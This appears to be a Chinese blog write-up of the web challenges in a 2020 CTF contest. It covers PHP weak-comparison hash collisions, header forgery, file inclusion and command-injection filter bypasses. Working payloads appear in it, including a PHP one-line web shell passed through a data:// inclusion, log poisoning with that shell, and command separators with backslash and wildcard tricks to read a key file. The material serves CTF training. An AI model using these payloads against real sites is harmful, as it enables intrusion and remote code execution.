 ```yaml
---
title: 【网络安全3x06】CTF8月竞赛学习----------技能竞赛 web部分writeup
date: 2020-08-05 17:55:08
tags: [网络安全]
---
```


技能竞赛的writeup。

<!-- more -->

# php弱类型

由于php会把`0e....`格式的md5密文当数字0(科学计数法0的n次方依旧为0)来比对，因此会存在不同明文在php中验证md5相同的问题。

常见md5密文验证相同串：

``` php
var_dump(md5('240610708') == md5('QNKCDZO'));
var_dump(md5('aabg7XSs') == md5('aabC9RqS'));
var_dump(sha1('aaroZmOK') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
var_dump('0010e2' == '1e3');
var_dump('0x1234Ab' == '1193131');
var_dump('0xABCdef' == ' 0xABCdef');
```
# php代码审计

右键源码：

``` php
<!--
function CLsI($ZzvSWE) {
    $ZzvSWE = gzinflate(base64_decode($ZzvSWE));
    for ($i = 0; $i < strlen($ZzvSWE); $i++) {
        $ZzvSWE[$i] = chr(ord($ZzvSWE[$i]) - 1);
    }
    return $ZzvSWE;
}eval(CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA=="));
-->
```

修改源码注释符，`eval`改`echo`，放在本地跑即可。

# http请求头伪造

## 浏览器伪造

burpsuite截包：

``` bash
User-Agent: CTF_coffee
```

## 本机IP伪造

burpsuite截包：

``` bash
X-Forwarded-For:127.0.0.1
```

## 本机端口伪造

burp做不到了，只能换curl伪造：

``` bash
curl http://192.167.11.11:8006/ --header 'X-Forwarded-For:127.0.0.1' --header 'User-Agent: CTF_coffee' --local-port 23333
```

# login爆破

一般不给用户名的提示都按admin/root来试

# 文件包含漏洞

文件包含路径反弹shell：

``` bash
http://192.167.11.11:8802/index.php?file=data://text/plain,<?php @eval($_POST[gt]);?>
```

如果被过滤，可以尝试将一句话木马写入到日志里，再对日志进行包含：

先使用burp抓包，改请求为`GET <?php @eval($_POST[gt]);?>`，发送即可将一句话木马写入log日志。

之后开启菜刀/蚁剑，访问包含路径http://192.167.11.11:8802/index.php?file=/var/log/apache2/access.log 即可反弹shell。

# 命令执行绕过

输入框只接收ip地址，回显一个ping的结果，尝试绕过执行其它命令：

1. 分隔符：

``` bash
| || & && ; 
前面加正常ip/错误ip/不加内容
```

2. 查看命令：

``` bash
cat more head tail tac less
```

3. 加反斜杠：

``` bash
cat  =>   \c\a\t
```

4. 双写绕过：

针对单次过滤

5. 写入cat命令绕过

``` bash
;>cacatt #写入空文件,双写绕过cat字段过滤
;* ../key.php #*匹配第一个文件名
```